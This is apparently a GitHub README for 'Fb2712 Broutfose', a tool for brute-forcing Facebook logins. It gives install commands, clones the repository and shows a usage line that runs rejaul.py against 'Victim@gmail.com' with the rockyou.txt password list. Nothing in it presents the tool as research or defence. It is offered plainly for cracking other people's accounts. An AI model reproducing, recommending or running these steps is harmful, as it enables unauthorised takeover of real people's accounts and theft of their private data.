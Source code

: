 # Fb2712 Broutfose

$ pip install requests

$ pip install mechanize

$ git clone https://github.com/princeicon2712/Fb2712.git

$cd Fb2712

$ chmod +x *

$python rejaul.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
